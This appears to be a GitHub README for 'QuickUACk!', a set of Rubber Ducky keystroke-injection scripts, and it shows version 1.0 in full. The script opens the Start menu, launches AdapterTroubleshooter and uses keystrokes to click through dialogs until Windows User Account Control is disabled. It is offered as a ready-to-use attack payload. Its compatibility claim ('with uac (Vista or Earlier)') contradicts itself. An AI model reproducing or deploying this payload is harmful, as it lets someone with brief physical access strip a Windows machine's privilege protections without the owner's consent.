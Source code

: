 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky

Really fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments


![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)


</BR>

QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
REM start C:\Windows\System32\AdapterTroubleshooter.exe
REM work on all windows version 32 and 64 bit
REM no reboot is required for disabling
STRING AdapterTroubleshooter
DELAY 200
ENTER
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
DOWNARROW
DOWNARROW
DOWNARROW
DOWNARROW
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
LEFTARROW
DELAY 200
ENTER

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-


